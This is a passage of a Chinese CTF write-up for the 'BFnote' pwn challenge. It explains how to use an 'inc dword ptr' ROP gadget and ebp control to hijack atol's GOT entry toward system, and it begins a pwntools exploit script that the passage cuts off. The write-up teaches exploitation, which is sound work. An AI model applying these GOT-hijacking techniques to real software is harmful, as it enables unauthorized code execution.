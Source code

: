 在`ROPgadget`中，我们看到了这样的`gadget`

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-23-052921.png)

然而我们又能通过`pop ebp`这个gadget直接控制ebp的值，那么我们就可以做到一个有限的任意地址写。

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-23-053830.png)

可以看到，程序中和system离得最近，且小于system的函数是`exit()`，但是`exit()`函数未曾调用过，因此延迟绑定还没有生效。

那么我们可以首先控制ebp为`atol[@GOT](https://github.com/GOT) + 1 + 0x17fA8b40`。

然后执行`0x3AD - 0x2d2 = 0xDB`次的`inc dword ptr [ebp - 0x17fa8b40] ; ret 0`这相当于是对`atol[@GOT](https://github.com/GOT)`做了`+0xDB00`操作，然后在调用`read`向`atol[@GOT](https://github.com/GOT)`低位写入1字节，即可成功劫持`atol`函数的GOT表地址。

### <a class="reference-link" name="Final%20Exploit%E2%80%94%E2%80%94%E6%80%9D%E8%B7%AF%E4%BA%8C"></a>Final Exploit——思路二

```
from pwn import *
import sys
context.log_level='debug'
# context.arch='amd64'
context.arch='i386'

BFnote=ELF('./BFnote', checksec = False)

if context.arch == 'amd64':
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec = False)
elif context.arch == 'i386':
    try:
        libc=ELF("/lib/i386-linux-gnu/libc.so.6", checksec = False)
    except:
        libc=ELF("/lib32/libc.so.6", checksec = False)

def get_sh(other_libc = null):
    global libc
    if args['REMOTE']:
        if other_libc is not null:
            libc = ELF("./", checksec = False)
        return remote(sys.argv[1], sys.argv[2])
    else:
        return process("./BFnote")

def get_address(sh,info=null,start_string=null,end_string=null,offset=null,int_mode=False):
    sh.recvuntil(start_string)
    if int_mode :
        return_address=int(sh.recvuntil(end_string).strip(end_string),16)
    elif context.arch == 'amd64':
        return_address=u64(sh.recvuntil(end_string).strip(end_string).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string).strip(end_string).ljust(4,'x00'))
    log.success(info+str(hex(return_address+offset)))
    return return_address+offset

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)

def get_gdb(sh,stop=False):
    gdb.attach(sh)
    if stop :
        raw_input()
```